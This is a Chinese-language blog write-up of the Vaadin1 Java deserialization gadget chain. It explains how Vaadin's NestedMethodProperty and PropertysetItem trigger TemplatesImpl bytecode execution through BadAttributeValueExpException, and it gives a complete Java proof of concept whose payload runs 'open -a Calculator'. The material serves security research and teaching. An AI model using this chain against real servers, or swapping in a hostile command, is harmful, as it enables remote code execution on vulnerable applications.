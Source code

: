# Java-Vaadin1

  
  
&lt;!--more--&gt;  
## 0x01 前言  
```xml  
  &lt;dependencies&gt;  
    &lt;dependency&gt;  
      &lt;groupId&gt;com.vaadin&lt;/groupId&gt;  
      &lt;artifactId&gt;vaadin-server&lt;/artifactId&gt;  
      &lt;version&gt;7.7.14&lt;/version&gt;  
    &lt;/dependency&gt;  
  
    &lt;dependency&gt;  
      &lt;groupId&gt;com.vaadin&lt;/groupId&gt;  
      &lt;artifactId&gt;vaadin-shared&lt;/artifactId&gt;  
      &lt;version&gt;7.7.14&lt;/version&gt;  
    &lt;/dependency&gt;  
    &lt;dependency&gt;  
      &lt;groupId&gt;org.javassist&lt;/groupId&gt;  
      &lt;artifactId&gt;javassist&lt;/artifactId&gt;  
      &lt;version&gt;3.29.0-GA&lt;/version&gt;  
    &lt;/dependency&gt;  
  &lt;/dependencies&gt;  
```  
Vaadin 是一个在 Java 后端快速开发 web 应用程序的平台。用 Java 构建可伸缩的 UI，并使用集成的工具、组件和设计系统来更快地迭代、更好地设计和简化开发过程。  
## 0x02 前置知识  
NestedMethodProperty  
`com.vaadin.data.util.NestedMethodProperty`类是一个封装访问属性方法的类。构造方法接收两个参数，一个是对象实例，一个是属性值。初始化时调用 initialize方法获取实例类中的相关信息存放在成员变量中。  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411170120780.png)
等到调用`NestedMethodProperty`的`getValue`方法时，就会反射调用封装对象指定属性的`getter`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411170121719.png)
因此这个类又是可以触发 TemplaesImpl 的利用方式  
PropertysetItem  
触发类`com.vaadin.data.util.PropertysetItem`，这个类用来存储Property属性值，为其映射一个 id 对象。  
数据存放在成员变量 map 中，想要获取相应属性的时，则调用`getItemProperty`方法在 map 中获取。  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411170125544.png)
映射的 id 对象则存储在成员变量 list 中。  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411170126054.png)
`PropertysetItem`的`toString`方法，获取全部 id 对象并遍历，使用`getItemProperty`方法获取映射的`Property`属性对象，并调用其`getValue`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411170128112.png)
使用`PropertysetItem`的`toString`方法触发`NestedMethodProperty`的`getValue`方法。  
触发点选择`BadAttributeValueExpException`中的`readObject`方法  
构造`exp`  
```java  
import com.vaadin.data.util.NestedMethodProperty;    
import com.vaadin.data.util.PropertysetItem;    
import javassist.CannotCompileException;    
import javassist.ClassPool;    
import javassist.CtClass;    
import javassist.NotFoundException;    
    
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;    
import javax.management.BadAttributeValueExpException;    
import java.io.*;    
import java.lang.reflect.Field;    
import java.util.Base64;    
import java.util.UUID;    
    
public class Poc {    
    public static void main(String[] args) throws Exception {    
        byte[] code = getTemplates();    
        byte[][] codes = {code};    
        // TemplatesImpl    
        TemplatesImpl templates = new TemplatesImpl();    
        setFieldValue(templates, &#34;_name&#34;, &#34;useless&#34;);    
        setFieldValue(templates, &#34;_tfactory&#34;, null);    
        setFieldValue(templates, &#34;_bytecodes&#34;, codes);    
        NestedMethodProperty&lt;Object&gt; nestedMethodProperty = new NestedMethodProperty(templates,&#34;outputProperties&#34;);    
        PropertysetItem propertysetItem = new PropertysetItem();    
        propertysetItem.addItemProperty(&#34;outputProperties&#34;, nestedMethodProperty);    
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);    
        setFieldValue(badAttributeValueExpException,&#34;val&#34;,propertysetItem);    
        String payload = serialize(badAttributeValueExpException);    
        unserialize(payload);    
    }    
    
    public static void unserialize(String base) throws IOException, ClassNotFoundException {    
        byte[] result = Base64.getDecoder().decode(base);    
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(result);    
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);    
        objectInputStream.readObject();    
    }    
    
    public static String serialize(Object object) throws IOException {    
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();    
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);    
        objectOutputStream.writeObject(object);    
        return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());    
    }    
    
    public static byte[] getTemplates() throws CannotCompileException, IOException, NotFoundException {    
        ClassPool classPool = ClassPool.getDefault();    
        // 生成一个随机的类名    
        String randomClassName = &#34;Test_&#34; &#43; UUID.randomUUID().toString().replace(&#34;-&#34;, &#34;&#34;);    
        CtClass ctClass = classPool.makeClass(randomClassName);    
        ctClass.setSuperclass(classPool.get(&#34;com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet&#34;));    
        String block = &#34;Runtime.getRuntime().exec(\&#34;open -a Calculator\&#34;);&#34;;    
        ctClass.makeClassInitializer().insertBefore(block);    
        return ctClass.toBytecode();    
    }    
    
    public static void setFieldValue(Object object, String field, Object arg) throws NoSuchFieldException, IllegalAccessException {    
        Field f = object.getClass().getDeclaredField(field);    
        f.setAccessible(true);    
        f.set(object, arg);    
    }    
    
}  
```  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/java-vaadin1/  


